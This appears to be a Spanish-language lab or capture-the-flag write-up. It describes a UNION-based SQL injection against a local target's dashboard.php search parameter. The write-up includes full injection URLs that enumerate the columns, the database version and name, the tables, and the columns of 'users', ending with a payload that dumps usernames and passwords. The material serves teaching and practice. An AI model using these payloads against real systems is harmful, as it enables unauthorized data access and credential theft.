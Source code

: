 ![image](https://github.com/user-attachments/assets/cc0f020b-e515-459a-ac1d-953c916905a2)

vemos que falla con 9 columnas asi que vamos a ir disminuyendo hasta que deje de fallar

![image](https://github.com/user-attachments/assets/96aaec26-4db4-4c78-85dd-ff3233e3a4f1)

con 8 tambien falla asiq ue continuamos bajando

![image](https://github.com/user-attachments/assets/f1b7db4d-54cd-4d0d-b777-a424049aa840)

con 7 tambien falla asi que bajamos aun mas

![image](https://github.com/user-attachments/assets/b329feba-8e21-4c45-a85a-fc4c45e9f062)

con 6 tambien falla

![image](https://github.com/user-attachments/assets/c47164a4-0487-4c67-939c-d08c201ce189)

con 5 no falla por lo que ya sabemos cuantas columnas tiene la base de datos, tambien vemos que se imprimen los numeros 2 y 3, esto nos indica que en estos campos podemos filtrar informacion asi que vamos a ir inyectando consultas

```bash
http://172.17.0.2/dashboard.php?search_term=-1%27%20UNION%20SELECT%201,@@version,database(),4,5--%20-
```

![image](https://github.com/user-attachments/assets/fb111cd0-d142-4285-9a41-e95dc0426ba9)

ahora sabemos que estamos frente a un servidor `ubuntu` y que la base de datos de llama `gallery_db`, continuaremos extrayendo informacion, vamos a listar las tablas

```bash
http://172.17.0.2/dashboard.php?search_term=-1%27%20UNION%20SELECT%201,2,GROUP_CONCAT(table_name),4,5%20FROM%20information_schema.tables%20WHERE%20table_schema=%27gallery_db%27--%20-
```

![image](https://github.com/user-attachments/assets/c3f5b33a-8eac-483e-b10d-4e4429a62e06)

vemos que existe la tabla `users` asi que vamos a extraer informacion de esa tabla

```bash
http://172.17.0.2/dashboard.php?search_term=-1%27%20UNION%20SELECT%201,2,column_name,4,5%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%27users%27--%20-
```

![image](https://github.com/user-attachments/assets/a4725b9d-a31c-47ac-a7c1-653240e29f2d)


obtenemos las 3 (id, username y password) columnas de la tabla `users`. Ahora extraemos la informacion de las columnas `username` y `password`


```bash
http://172.17.0.2/dashboard.php?search_term=-1%27%20UNION%20SELECT%201,2,GROUP_CONCAT(username,%27:%27,password),4,5%20FROM%20users--%20-
```
